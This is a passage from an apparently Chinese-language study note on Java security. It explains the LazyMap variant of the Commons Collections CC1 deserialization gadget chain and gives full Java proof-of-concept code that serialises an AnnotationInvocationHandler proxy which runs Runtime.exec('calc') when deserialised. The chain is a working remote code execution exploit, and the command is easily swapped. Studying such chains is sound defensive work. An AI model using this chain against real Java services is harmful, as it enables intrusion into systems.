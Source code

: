 ### 4.思路转换

本次分析的CC1链是国内基于TransformerMap类的链，而我们常用的ysoserial中的则是国外基于LazyMap的链，其思路如下：

<img src="JAVA%E5%AE%89%E5%85%A8CC1%E9%93%BE/1708679064221.png" alt="1708679064221" style="zoom: 67%;" />

payload也和之前的类似，不过是将TransformerMap改为了LazyMap，利用方法由checkSetValue变为了get，并多了一步Proxy触发invoke方法，至于注解类型，由于我们利用的是get方法，所以不需要进入if，直接随便传一个注解就可以了。最后使用AnnotationInvocationHandler类进行包装，毕竟我们需要使用它的readObject方法进行反序列化。

```java
Transformer[] transformers=new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
};
ChainedTransformer chainedTransformer= new ChainedTransformer(transformers);
HashMap<Object,Object> map = new HashMap<>();
map.put("value","value");
LazyMap innerMap = (LazyMap) LazyMap.decorate(map, chainedTransformer);
//反射获取AnnotationInvocationHandler类
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = c.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
InvocationHandler handler = (InvocationHandler) constructor.newInstance(Target.class,innerMap);
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},handler);
handler = (InvocationHandler) constructor.newInstance(Target.class, proxyMap);
//序列化
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("C:\\Users\\Narcher\\IdeaProjects\\CC1.txt"));
oos.writeObject(handler);
//反序列化
ObjectInputStream ois = new ObjectInputStream(new FileInputStream("C:\\Users\\Narcher\\IdeaProjects\\CC1.txt"));
ois.readObject();
```

